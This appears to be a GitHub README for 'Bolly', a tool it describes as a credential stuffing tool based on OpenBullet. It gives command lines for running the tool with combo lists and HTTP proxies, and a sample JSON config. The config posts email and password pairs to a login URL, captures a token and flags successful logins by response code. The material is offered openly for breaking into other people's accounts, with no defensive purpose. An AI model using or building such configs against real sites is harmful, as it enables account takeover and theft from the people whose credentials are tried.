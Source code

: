 # Bolly

Bolly is an credentials stuffing tool based on OpenBullet high performance because it reuses the same http client [httpclient best practices](https://www.thecodebuzz.com/using-httpclient-best-practices-and-anti-patterns/)

# Usage

Open your cmd and past
```
> Bolly.exe your_config.json your_combos.txt
```
you can also specify a list of proxies ( http only )
```
> Bolly.exe your_config.json your_combos.txt your_proxies.txt
```

# Config Example

```json
{
   "Settings":{
      "Name":"Site",
      "UseCookies":false,
      "AllowAutoRedirect":true,
      "MaxDegreeOfParallelism":1
   },
   "Blocks":[
      {
         "Type":"Request",
         "Methode":"Post",
         "Url":"https://www.site.com",
         "ContentType":"application/x-www-form-urlencoded",
         "Content":"email=<USERNAME>&password=<PASSWORD>",
         "Headers":[
            "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
            "Pragma: no-cache",
            "Accept: */*"
         ]
      },
      {
         "Type":"Parse",
         "ParseName":"TOKEN",
         "Source":"<SOURCE>",
         "Methode":"LR",
         "FirstInput":"LeftInput",
         "SecondInput":"RightInput",
         "Capture":true
      },
      {
         "Type":"KeyCheck",
         "KeyCheckPatterns":[
            {
               "Status":"Invalid",
               "Source":"<SOURCE>",
               "Condition":"Contains",
               "Key":"InvalidKey"
            },
            {
               "Status":"Success",
               "Source":"<RESPONSECODE>",
               "Condition":"Equal",
               "Key":"200"
            }
         ]
      }
   ]
}
```
